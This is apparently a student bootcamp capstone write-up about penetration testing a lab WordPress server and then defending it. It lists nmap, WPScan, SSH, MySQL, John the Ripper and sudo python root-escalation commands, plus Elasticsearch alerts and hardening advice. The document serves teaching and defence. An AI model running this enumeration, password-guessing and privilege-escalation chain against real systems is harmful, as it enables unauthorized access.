# ProjectWork
#The objective was to practice a number of different things learned throughout the bootcamp course and to act as a pentester and SOC analyst.

- Implement alarms and thresholds in Elasticsearch Watcher.
- Find vulnerabilities / exploits to gain access to a vulnerable WordPress site / server.
- Create a team presentation with the assessment, analysis and hardening of the vulnerable system.

# Red Team: Summary of Operations

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

Command: nmap -sV -sC -A 192.168.1.110`

Output Screenshot:



This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of User Privileges/Privilege Escalation

### Explotation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - wpscan --url http://192.168.1.110/wordpress/ --enumerate u




- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`



- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`



- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- - **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`





        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`



        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`




# Blue Team: Summary of Operations

### Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic and Behavior
- Suggestions for Going Further

### Network Topology
The following machines were identified on the network:

**Kali**
- Operating System: 
    - Debian Kali 5.4.0
- Purpose: 
    - The Penetration Tester
- IP Address: 
    - 192.168.1.90

**ELK**
- Operating System: 
    - Ubuntu 18.04
- Purpose: 
    - The ELK (Elasticsearch and Kibana) Stack
- IP Address: 
    - 192.168.1.100

**Target 1**
- Operating System: 
    - Debian GNU/Linux 8
- Purpose: 
    - The WordPress Host
- IP Address: 
    - 192.168.1.110

**Capstone**
- Operating System: 
    - Ubuntu 18.04
- Purpose: 
    - The Vulnerable Web Server
- IP Address: 
    - 192.168.1.105

**Network Diagram:**



### Description of Targets

- Two VMs on the network were vulnerable to attack: Target 1 (192.168.1.110) and Target 2 (192.168.1.115). However, only Target 1 is covered and was attacked.

- Each VM functions as an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers.

### Monitoring the Targets
This scan identifies the services below as potential points of entry:

**Target 1**
- Port 22/TCP 	Open 	SSH	OpenSSH 6.7p1 Debian 5+deb8u4
- Port 80/TCP 	Open 	HTTP	Apache httpd 2.4.10 (Debian)

Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:

**Excessive HTTP Errors**

Excessive HTTP Errors is implemented as follows:

`WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes`

-  Metric: 
    - **WHEN count() GROUPED OVER top 5 ‘http.response.status_code’**
- Threshold: 
    - **IS ABOVE 400**
- Vulnerability Mitigated:
    - **Enumeration/Brute Force**
- Reliability: 
    - The alert is highly reliable. Measuring by error codes 400 and above will filter out any normal or successful responses. 400+ codes are client and server errors which are of more concern. Especially when taking into account these error codes going off at a high rate.



**HTTP Request Size Monitor**

HTTP Request Size Monitor is implemented as follows:

`WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute`

- Metric: 
    - **WHEN sum() of http.request.bytes OVER all documents**
- Threshold: 
    - **IS ABOVE 3500**
- Vulnerability Mitigated: 
    - **Code injection in HTTP requests (XSS and CRLF) or DDOS**
- Reliability:
    - Alert could create false positives. It comes in at a medium reliability. There is a possibility for a large non malicious HTTP request or legitimate HTTP traffic.

**CPU Usage Monitor**

CPU Usage Monitor is implemented as follows:

`WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes`

- Metric: 
    - **WHEN max() OF system.process.cpu.total.pct OVER all documents**
- Threshold: 
    - **IS ABOVE 0.5**
- Vulnerability Mitigated: 
    - **Malicious software, programs (malware or viruses) running taking up resources**
- Reliability: 
    - The alert is highly reliable. Even if there isn’t a malicious program running this can still help determine where to improve on CPU usage.



### Suggestions for Going Further
**Suggest a patch for each vulnerability identified by the alerts above.** Remember: alerts only detect malicious behavior. They do not prevent it. It is not necessary to explain how to implement each patch.

The logs and alerts generated during the assessment suggest that this network is susceptible to several active threats. In addition to watching for occurrences of such threats, the network should be hardened against them. The Blue Team suggests that IT implement the fixes below to protect the network:

**Excessive HTTP Errors**
- Patch: WordPress Hardening
    - Implement regular updates to WordPress 
        - WordPress Core 
        - PHP version
        - Plugins
    - Install security plugin(s)
        - Ex. Wordfence (adds security functionality)
    - Disable unused WordPress features and settings like:
        - WordPress XML-RPC (on by default)
        - WordPress REST API (on by default)
    - Block requests to /?author=<number> by configuring web server settings
    - Remove WordPress logins from being publicly accessible specifically:
        - /wp-admin 
        - /wp-login.php
- Why It Works: 
    - Regular updates to WordPress, the PHP version and plugins is an easy way to implement patches or fixes to exploits/vulnerabilities.
    - Depending on the WordPress security plugin it can provide things like:
        - Malware scans
        - Firewall
        - IP options (to monitor/block suspicious traffic)
    - REST API is used by WPScan to enumerate users
        - Disabling it will help mitigate WPScan or enumeration in general
    - XML-RPC uses HTTP as it’s method of data transport
    - WordPress links (permalinks) can include authors (users)
        - Blocking request to view the all authors (users) helps mitigate against user enumeration attacks
    - Removal of public access to WordPress login helps reduce the attack surface

**HTTP Request Size Monitor**
- Patch: Code Injection/DDOS Hardening
    - Implementation of HTTP Request Limit on the web server
        - Limits can include a number of things:
            - Maximum URL Length
            - Maximum length of a query string
            - Maximum size of a request
    - Implementation of input validation on forms
- Why It Works: 
    - If an HTTP request URL length, query string and over size limit of the request a 404 range of errors will occur.
        - This will help reject these requests that are too large.
    - Input validation can help protect against malicious data anyone attempts to send to the server via the website or application in/across a HTTP request.

**CPU Usage Monitor**
- Patch: Virus or Malware hardening
    - Add or update to a good antivirus.
    - Implement and configure Host Based Intrusion Detection System (HIDS)
        - Ex. SNORT (HIDS)
- Why It Works: 
    - Antiviruses specialize in removal, detection and overall prevention of malicious threats against computers. 
        - Any modern antivirus usually covers more than viruses and are a robust solution to protecting a computer in general.
    - HIDS monitors and analyzes internals of computing systems. 
        - They also monitor and analyze network packets.